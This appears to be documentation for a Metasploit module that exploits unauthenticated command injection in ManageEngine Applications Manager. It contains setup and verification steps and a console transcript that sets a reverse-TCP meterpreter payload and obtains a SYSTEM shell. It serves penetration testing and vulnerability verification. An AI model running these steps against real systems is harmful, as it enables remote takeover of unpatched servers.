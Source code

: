## Vulnerable Application

This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[http://archives.manageengine.com/applications_manager/13630/](http://archives.manageengine.com/applications_manager/13630/)

## Verification Steps

A successful check of the exploit will look like this:

* Start `msfconsole`
* `use exploit/windows/http/manageengine_appmanager_exec`
* Set `RHOST <RHOST>`
* Set `PAYLOAD windows/meterpreter/reverse_tcp`
* Set `LHOST <LHOST>`
* Run `check`
* **Verify** that you are seeing `The target is vulnerable.` in console.
* Run `exploit`
* **Verify** that you are seeing `Triggering the vulnerability` in console.
* **Verify** that you are seeing `Sending stage to <TARGET>` in console.
* **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Triggering the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
